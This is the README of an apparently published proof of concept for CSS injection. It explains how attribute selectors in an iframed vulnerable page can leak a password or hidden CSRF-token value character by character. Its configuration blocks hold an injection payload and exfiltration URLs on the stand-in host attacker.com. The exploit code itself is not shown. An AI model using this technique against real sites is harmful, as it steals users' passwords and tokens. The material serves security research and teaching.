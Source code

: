 # PoC - CSS Injection : Attribute Selectors 

__Read this in other languages:__ [English](README.md), [Français](README.fr.md)

## Description

PoC to exploit a CSS injection using attribute selectors to retrieve the value of an attribute of an HTML element.

## Prerequisites

- The vulnerable site must be able to be iframed, see `X-Frame-Options` and `frame-ancestors` HTTP headers.
- There are some limitations when the value to be retrieved starts with a number. The target value must then be surrounded by single or double quotes and exploitation may not be possible if these characters are filtered by the application.

## Configuration

Before using the PoC, adapt the following values:

```
/* ==== CONFIG ==== */
// Full URL of the vulnerable application
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  

// URL of the attacker's machine to retrieve the already known characters
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";

// URL of the attacker's machine to indicate a new identified character
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";

// Name of the targeted HTML element
const HTML_ELEMENT_NAME = "input";

// Name of the targeted HTML attribute
const HTML_ATTRIBUTE_NAME = "name";

// NAME value of the targeted HTML attribute
const HTML_ATTRIBUTE_VALUE = "password";

// True if the targeted field is of type "hidden" (use of CSS combinators ~*)
const isHiddenTypeElement = false;

// When the characters "'" and """ are filtered by the application it's not possible to retrieve a value starting with a number
const isQuoteFiltered = true;
```

## Usage

### Retrieving a value from a password field

```javascript
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "password";
const isHiddenTypeElement = false;
const isQuoteFiltered = true;
```

### Retrieving a value from a hidden field

```javascript
const RURL = "http://vulnerable.com/targets/hidden.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "csrf-token";
const isHiddenTypeElement = true;
const isQuoteFiltered = true;
```

## Demo

### Retrieving a value from a password field

![](https://github.com/Sharpforce/PoC-CSS-injection/blob/master/attribute-selectors-iframe/demo/attribute-selectors-iframe-password.gif)

### Retrieving a value from a hidden field

![](https://github.com/Sharpforce/PoC-CSS-injection/blob/master/attribute-selectors-iframe/demo/attribute-selectors-iframe-hidden.gif)

